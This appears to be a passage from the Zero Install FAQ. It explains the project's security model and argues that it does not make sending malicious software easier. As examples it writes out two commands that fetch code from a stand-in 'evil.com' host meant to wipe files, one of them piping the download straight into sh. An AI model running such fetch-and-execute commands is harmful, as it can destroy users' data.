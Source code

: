     ![Confirming Thomas Leonard's GPG key](../img/screens/confirm-tal-rox.png)

    To be more precise, it has all the advantages of application directories (no install step, so no chance for anything to run as root). In addition, if two users try to run the same application, they both automatically get the same cached copy, whereas without this each would have to install a separate copy to their home directory, or one user has to trust the other user not to have modified his copy, and use that.

    See the [security issues](../details/security.md) document for more information.

Doesn't Zero Install make it easier to send users malicious software?

:   Not really. True, you could email a user, telling them to run:

    ```shell
    $ 0install run http://evil.com/wipe-my-files
    ```

    But on the other hand, you could also send them an email telling them to type:

    ```shell
    $ lynx -source http://evil.com/wipe-my-files | sh -
    ```

    Both can do exactly the same amount of damage, but the second works on any system. If a user is prepared to run unknown software, they're going to do it with or without Zero Install.

    Zero Install helps with large, complicated programs with lots of dependencies, whereas your typical malicious program is only a few lines long, and doesn't benefit from it.

Sometimes, bugs are found (and fixed) in the Linux kernel that allow any user to become root. For example, one was used to compromise some of Debian's servers. Couldn't a user access some software through Zero Install that took advantage of this bug to break an un-patched machine?
